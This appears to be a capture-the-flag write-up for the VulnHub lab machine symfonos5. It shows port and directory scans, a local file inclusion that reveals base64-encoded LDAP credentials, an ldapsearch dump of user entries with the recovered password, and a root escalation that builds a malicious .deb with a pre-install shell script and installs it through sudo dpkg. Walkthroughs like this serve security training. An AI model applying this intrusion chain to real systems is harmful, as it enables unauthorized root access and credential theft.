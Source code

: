 ```yaml
---
layout : post
title: symfonos5
image : symfonos5.png
date: 2021-04-17 17:28:00 +5:30 
tags: [LFI,LDAP,gtfobin dpkg]
---
```

# Namp

```
22/tcp  open  ssh      OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 16:70:13:77:22:f9:68:78:40:0d:21:76:c1:50:54:23 (RSA)
|   256 a8:06:23:d0:93:18:7d:7a:6b:05:77:8d:8b:c9:ec:02 (ECDSA)
|_  256 52:c0:83:18:f4:c7:38:65:5a:ce:97:66:f3:75:68:4c (ED25519)
80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
389/tcp open  ldap     OpenLDAP 2.2.X - 2.3.X
636/tcp open  ldapssl?
```
# Enumeration

Port 80 Enumeration

```
gobuster dir -u http://10.0.2.52/ -w /usr/share/dirb/wordlists/big.txt -s 200,301,302 -x html,txt,php
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.0.2.52/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              html,txt,php
[+] Timeout:                 10s
===============================================================
2021/04/17 08:23:05 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess.html       (Status: 403) [Size: 274]
/.htaccess            (Status: 403) [Size: 274]
/.htpasswd            (Status: 403) [Size: 274]
/.htaccess.txt        (Status: 403) [Size: 274]
/.htpasswd.html       (Status: 403) [Size: 274]
/.htaccess.php        (Status: 403) [Size: 274]
/.htpasswd.txt        (Status: 403) [Size: 274]
/.htpasswd.php        (Status: 403) [Size: 274]
/admin.php            (Status: 200) [Size: 1650]
/home.php             (Status: 302) [Size: 0] [--> admin.php]
/index.html           (Status: 200) [Size: 207]              
/logout.php           (Status: 302) [Size: 0] [--> admin.php]
/portraits.php        (Status: 200) [Size: 165]              
/server-status        (Status: 403) [Size: 274]              
/static               (Status: 301) [Size: 307] [--> http://10.0.2.52/static/]
                                                                              
===============================================================
2021/04/17 08:23:15 Finished
===============================================================
```
/admin.php /home.php dir are intresting 

/admin directory not vulnerble to sqli
 ![]({{site.baseurl}}/img/vulnhub/symfonos5/admin.png)

when we try to access /home.php directory to redirect to /admin.php

fire brupsuite , checked the source Code , /home.php include url from server local host , here this leverage to LFI 
 ![]({{site.baseurl}}/img/vulnhub/symfonos5/LFI.png)

 `/var/www/html/admin.php has the ldap creds init encoded with base64`

 ```bash
 echo "Y2V0a0tmNHdDdUhDOUZFVA==" | base64 -d
 ```


![]()
<h3>LDAP Enumeration</h3>

>ldapsearch -h 10.0.2.52 -p 389 -b "dc=symfonos,dc=local" -w 'qMDdyZh3cT6eeAWD' -D "cn=admin,dc=symfonos,dc=local"

```
┌──(root💀nucleus)-[~]
└─# ldapsearch -h 10.0.2.52 -p 389 -b "dc=symfonos,dc=local" -w 'qMDdyZh3cT6eeAWD' -D "cn=admin,dc=symfonos,dc=local"
# extended LDIF
#
# LDAPv3
# base <dc=symfonos,dc=local> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# symfonos.local
dn: dc=symfonos,dc=local
objectClass: top
objectClass: dcObject
objectClass: organization
o: symfonos
dc: symfonos

# admin, symfonos.local
dn: cn=admin,dc=symfonos,dc=local
objectClass: simpleSecurityObject
objectClass: organizationalRole
cn: admin
description: LDAP administrator
userPassword:: e1NTSEF9VVdZeHZ1aEEwYldzamZyMmJodHhRYmFwcjllU2dLVm0=

# zeus, symfonos.local
dn: uid=zeus,dc=symfonos,dc=local
uid: zeus
cn: zeus
sn: 3
objectClass: top
objectClass: posixAccount
objectClass: inetOrgPerson
loginShell: /bin/bash
homeDirectory: /home/zeus
uidNumber: 14583102
gidNumber: 14564100
userPassword:: Y2V0a0tmNHdDdUhDOUZFVA==
mail: zeus@symfonos.local
gecos: Zeus User

# search result
search: 2
result: 0 Success

# numResponses: 4
# numEntries: 3

```

from above Enumeration we got Username and password

`zeus:Y2V0a0tmNHdDdUhDOUZFVA==`

# PrivilageEsclation

![]({{site.baseurl}}/img/vulnhub/symfonos5/sudodpkg.png)

dpkg linux package SUID can be run as root without  passwd

so first we need to create the .db package which contains the bash shell so that when it is extracted it `spawn the Bashshell`

fpm
: fpm is used to create the .db pacakge

> fpm -s dir -t deb -n exploit --before-install shell.sh .

```bash
zeus@symfonos5:/tmp$ sudo -u root /usr/bin/dpkg -i exploit_1.0_amd64.deb
Selecting previously unselected package exploit.
(Reading database ... 53057 files and directories currently installed.)
Preparing to unpack exploit_1.0_amd64.deb ...
root@symfonos5:/# cd /root
root@symfonos5:~# ls
proof.txt
root@symfonos5:~# cat proof.txt 
 
                    Congrats on rooting symfonos:5!
  
                                   ZEUS
              *      .            dZZZZZ,       .          *
                                 dZZZZ  ZZ,
     *         .         ,AZZZZZZZZZZZ  `ZZ,_          *
                    ,ZZZZZZV'      ZZZZ   `Z,`\
                  ,ZZZ    ZZ   .    ZZZZ   `V
        *      ZZZZV'     ZZ         ZZZZ    \_              .
.              V   l   .   ZZ        ZZZZZZ          .
               l    \       ZZ,     ZZZ  ZZZZZZ,
   .          /            ZZ l    ZZZ    ZZZ `Z,
                          ZZ  l   ZZZ     Z Z, `Z,            *
                .        ZZ      ZZZ      Z  Z, `l
                         Z        ZZ      V  `Z   \
                         V        ZZC     l   V
           Z             l        V ZR        l      .
            \             \       l  ZA
                            \         C          C
                                  \   K   /    /             K
                          A    \   \  |  /  /              /
                           \        \\|/ /  /
   __________________________________\|/_________________________
            Contact me via Twitter @zayotic to give feedback!

```